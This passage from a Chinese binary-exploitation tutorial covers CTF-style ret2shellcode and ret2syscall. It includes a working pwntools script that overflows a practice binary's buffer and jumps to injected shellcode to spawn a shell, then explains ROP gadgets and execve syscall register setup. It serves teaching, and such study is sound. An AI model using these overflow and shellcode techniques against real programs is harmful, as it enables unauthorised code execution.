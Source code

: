 这里可能有点问题，原本这里是有可执行权限的，这个段应该是rwx权限

如果这个bss段有执行权限的话，我们就可以把shellcode写入这个buf2，然后溢出到buf2的地址，这样就可以获取一个shell

```
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())	# 44个长度
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()
```

### ret2syscall

现在很多时候其实都开启了NX栈上不可执行的保护，当没有后面函数的时候又该怎么办呢

我们可以在程序中找到一些小片段来改变某些寄存器的值，来达到执行函数的目的

gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程

**Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数**

**应用程序调用系统调用的过程是：**

1、**把系统调用的编号存入 EAX**

2、**把函数参数存入其它通用寄存器**

3、**触发 0x80 号中断（int 0x80）**

假如我们需要执行的代码为`execve("/bin/sh",NULL,NULL)`

可以去了解一下如何进行系统调用

来对应的库查看一下系统调用号

```
cat /usr/include/asm/unistd_32.h | grep execve
```

![image-20231220135537442](images/24.png)

发现是11，也就是0xb，也就是说我们要执行上面的代码需要四个寄存器

eax 中应该存放 0xb。，ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数NULL，寄存器的值设置为 0。

所以现在需要做的就是让：

1. eax=0xb
2. ebx=/bin/sh 的地址
3. ecx=0
4. edx=0
